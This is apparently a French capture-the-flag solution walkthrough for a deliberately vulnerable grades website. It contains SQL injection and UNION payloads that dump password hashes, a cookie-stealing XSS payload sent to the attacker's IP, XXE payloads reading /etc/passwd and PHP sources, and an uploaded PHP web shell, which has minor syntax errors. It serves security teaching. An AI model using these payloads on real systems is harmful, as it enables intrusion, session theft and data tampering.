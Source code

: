 # Solutions

## Etape 1 : Social Engineering

Le mot de passe est probablement lié à son fils, Brandon. La photo montre clairement que l'enfant a 1 an le 9 novembre 2017. On peut par déduction essayer comme mot de passe la date de naissance : 09112016.

## Etape 2 : Injection SQL

Sur la page d'affichage des cours, on remarque qu'on a une URL qui terme par `code=xxx`. Il y a probablement derrière une requête du type `SELECT * FROM grades WHERE code="xxx";`.

On souhaiterait avoir une requête du type `SELECT * FROM grades WHERE code="" OR "1"="1` par exemple. Pour cela, remplacer dans l'URL `code=" OR "1"="1;`. 

## Etape 3 : Mot de passe faible

On ne peut pas réaliser de requête UPDATE dans la table car l'utilisateur n'a pas les droits. Cependant, il est possible de récupérer tous les utilisateurs. Dans la majorité des systèmes, la table des utilisateurs s'appelle `users`.

On fait une nouvelle injection SQL. Cette fois ci, on annule la première requête SELECT et on fait une union avec la requête que l'on souhaite. On souhaiterait par exemple obtenir `SELECT * FROM grades WHERE code="" AND 1=0 UNION SELECT * FROM users;`. On peut utiliser les caractères `--` afin de ne pas s'inquiéter des éventuels caractères après le test sur code qui rendrait notre seconde requête invalide. L'injection est alors `" AND 1=0 UNION SELECT * FROM users;--`. 

Un problème se pose : il faut que les 2 requêtes renvoient le même nombre de champs. Afin de déterminer le nombre de champs renvoyés et leur position, on peut par exemple procéder par étapes avec des `SELECT 1`, `SELECT 1,2`, ... On remarque que 3 champs sont récupérés. Il nous faut leur nom.

Dans une table `users`, on a souvent des champs `username` et ̀password`. Récupérons donc ces champs avec l'injection : 
̀" AND 1=0 UNION SELECT username, password, 3 FROM users;--`. 

On récupère les hash des mots de passe. Si les mots de passe ne sont pas salés, on peut utiliser une rainbow table. On peut aussi utiliser un programme spécifique comme john ou hashcat. En l'occurence, Crack-Station arrive à cracker 2 de ces hash : la date de naissance utilisée à l'étape 1 et un nouveau mot de passe.

Utiliser ce nouveau mot de passe afin de se connecter...

## Etape 4 : Injection XSS

Depuis ce nouvel utilisateur, il est possible d'ajouter des news sur la page d'accueil. On nous indique que la secrétaire visite régulièrement cette page, ce qui semble indiquer qu'une injection XSS est à réaliser afin de voler sa session.

Le principe de l'attaque est de récupérer les cookies de l'utilisateur (dont son cookie de session). Pour ce faire, on injecte dans la page du code javascript afin d'envoyer une requête vers une machine que l'on contrôle contenant ces informations.

On essaie de rentrer des balises HTML dans le champ message du formulaire : ça marche. Par contre, les balises `<script>` sont refusées. On peut utiliser la balise image. 

On peut par exemple exploiter l'attribut `onerror` de l'élément `<img>`. Cet attribut permet d'exécuter du code javascript lorsque l'attribut `src` contient une adresse invalide ou qui ne répond pas. De ce fait, on peut ajouter l'élement :`<img src="blabla" onerror="this.src='http://<mon-adresse-ip>/' + document.cookie"> `. Lorsque la victime interprètera ce code, il enverra une requête HTTP GET afin de récupérer une image à l'adresse `http://<mon-adresse-ip>:<mon-port-d-ecoute>/<ses-cookies>`. 

Cette requête peut être interceptée facilement en utilisant l'utilitaire `netcat` : `nc -l -p <mon-port>`.

On récupère un cookie PHPSESSID (l'url est de la forme `http://<mon-adresse-ip>:<mon-port-d-ecoute>/PHPSESSID=yyy`). En injectant de cookie dans son navigateur, on est authentifié en tant que `salmon`. En allant sur la page d'accueil, on récupère le flag.

## Etape 5 : Injection XEE

L'objectif est d'accéder aux sources du site. `salmon` a la possibilité d'uploader des fichiers. On nous indique qu'il ne peut uploader que des fichiers ̀.xml`. Un exemple est présent sur la page. 

Si on upload le fichier de test, on remarque que son contenu est ensuite affiché. Le fichier est donc parsé. On peut essayer de faire une injection XEE. 

On peut dans un premier temps essayer de récupérer un fichier classique comme `/etc/passwd` en utilisant une injection : 
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<grades>
  <grade>
    <name>&xxe;</name>
    <grade>19</grade>
    <class>CS-130</class>
  </grade>
</grades>
```

En essayant de récupérer les sources (par exemple index.php), on s'apperçoit que rien ne s'affiche. Cela est du au fait que le fichier XML devient invalide à cause des chevrons contenu dans les fichiers PHP. 

Afin de contourner cette limite, on peut utiliser un filtre PHP et récupérer le contenu encodé en base64 : 
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<grades>
  <grade>
    <name>&xxe;</name>
    <grade>19</grade>
    <class>CS-130</class>
  </grade>
</grades>
```

On obtient une longue chaîne de base64. On utilise un décodeur base64 afin de récupérer le texte sous forme lisible. On peut par exemple utiliser la commande linux `echo <chaine-base64> | base64 -d`. 

On récupère alors le code source du fichier `index.php`. On remarque que ce fichier inclut un autre fichier nommé `../config/flags.php`. Il semble intéressant ! En utilisant le même procédé que pour `index.php`, on récupère le fichier qui contient les 4 premiers flags et notre cinquiète flag.

## Etape 6 : Unrestricted File Upload 

L'objectif de cette étape est de modifier la note identifiée à l'étape 2. 

On nous indique qu'une backdoor a été ajoutée au site. Cette étape peut demander une recherche assez importante de la part de l'attaquant car il doit comprendre comment le site fonctionne.

La backdoor se situe dans le formulaire d'upload de fichiers `.xml` utilisés précédemment. Le formulaire accepte des fichiers d'une extension particulière (`phpbigbackdoorofthedeath`) qu'il transforme en fichiers `.php` après les avoir uploadé tels quels dans un répertoire public `uploads`.

On peut donc uploader un fichier `php` et l'exécuter.

En lisant le code source à l'étape 5, on a pu s'appercevoir qu'un fichier `config/database.php` contient les identifiants permettant de se connecter à la base de données. Ce fichier contient deux comptes, dont un, `admin`, semble permettre la modification des données (contrairement au premier `readonly`). 

On va alors écrire du code PHP permettant de modifier la note en se connectant à la base de données. Une fois la note modifiée, l'énoncé annonce qu'un flag sera ajouté dans la table flags. 

On peut utiliser le code suivant : 
```php 
<?php 

$mysqli = new mysqli('localhost', '<username>', '<mot-de-passe>', '<database>');

$res = $mysqli->query($_GET['sql'];);

if (!$res) {
    die('Error with the database');
}

while ($data = $res->fetch_assoc()) {
    var_dump($data);
    echo '<br/><br/>';
}

$result->free();
$mysqli->close();

?>
```

Ce code permet d'exécuter la requête SQL contenue dans l'arguement `sql`. On peut par exemple l'appeler avec dans l'URL `?sql=SELECT * FROM users`. 

On récupère d'abord des informations sur la structure de la base avec `SHOW TABLES;`. On peut ensuite récupérer le contenu complet de la table `grades` avec `SELECT * FROM grades;`. Finalement, on effectue une requête UPDATE sur la table `grades` pour modifier notre note. 

Le flag se situe dans la table flags, donc on termine par une requête `SELECT * FROM flags;`. 

